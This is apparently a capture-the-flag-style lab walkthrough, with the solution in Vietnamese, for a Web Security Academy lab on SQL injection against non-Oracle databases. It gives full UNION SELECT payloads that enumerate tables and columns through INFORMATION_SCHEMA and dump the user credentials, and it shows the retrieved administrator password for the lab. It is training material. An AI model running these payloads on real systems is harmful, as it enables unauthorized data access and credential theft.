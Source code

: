 # **Lab: SQL injection attack, listing the database contents on non-Oracle databases**

>  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.  
 The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.  
  To solve the lab, log in as the `administrator` user.  

  # **Solution**

Vẫn sẽ đặt mục tiêu ở chức năng filter sản phẩm của web:

```
https://0a5500af042d1e79805517a400d80071.web-security-academy.net/filter?category=Pets
```

```
' UNION SELECT NULL, NULL -- 
```

```
' UNION SELECT 'a', 'a' -- 
```

Có thể dễ dàng xác định được câu truy vấn ở filter trả về 2 cột cùng kiểu dữ liệu là chuỗi kí tự.

Tiếp theo là kiểm tra danh sách các bảng trong database:

```
' UNION SELECT 'RESULT', TABLE_NAME FROM INFORMATION_SCHEMA.TABLES --
```

Khi lấy được danh sách các bảng trong database, ta xác định được `users_lpdpzk` là bảng chứa thông tin tài khoản trong hệ thống.

Tiếp theo là xem tên các cột trong bảng để khai thác thông tin:

```
' UNION SELECT 'RESULT', COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users_lpdpzk' --
```

Ta đã lấy được tên của 2 cột chứa thông tin đăng nhập trong bảng là: `username_futveh` và`password_giysdv`. Tiếp theo là lấy thông tin đăng nhập từ đó thôi:

```
' UNION SELECT 'RESULT', username_futveh || '~~' || password_giysdv FROM users_lpdpzk -- 
```

I got it!!

> RESULT
	administrator~~vek6olikidhl8fkymn6c

Với câu truy vấn trên, ta đã lấy được thông tin đăng nhập từ bảng `users_lpdpzk`. Cuối cùng chỉ cần dùng thông tin của tài khoản `administrator` để  đăng nhập thôi. 

Done~~

![image](https://i.pinimg.com/550x/62/82/41/628241b01dc7c4fa2bea6ea702713a87.jpg)